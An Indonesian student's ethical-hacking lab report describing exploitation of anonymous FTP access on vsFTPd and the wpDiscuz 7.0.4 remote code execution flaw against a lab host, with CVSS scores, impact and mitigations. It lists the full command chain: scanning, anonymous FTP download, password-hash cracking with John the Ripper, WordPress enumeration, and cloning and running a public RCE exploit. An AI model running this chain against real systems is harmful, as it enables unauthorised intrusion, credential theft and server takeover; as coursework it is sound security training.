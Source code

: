 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```

Pindai kerentanan FTP dengan Nmap:

```bash
nmap --script=ftp-anon,ftp-vsftpd-backdoor -p21 10.15.42.245
```

Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

Download file yang ditemukan:

```bash
ls
get list.xyz
get readme.txt
```

Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

Simpan hash dan crack dengan John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Vulnerable WordPress Plugin:
Gunakan GoBuster untuk mencari direktori tersembunyi:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```

Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:

```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

Jalankan exploit:

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```

6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
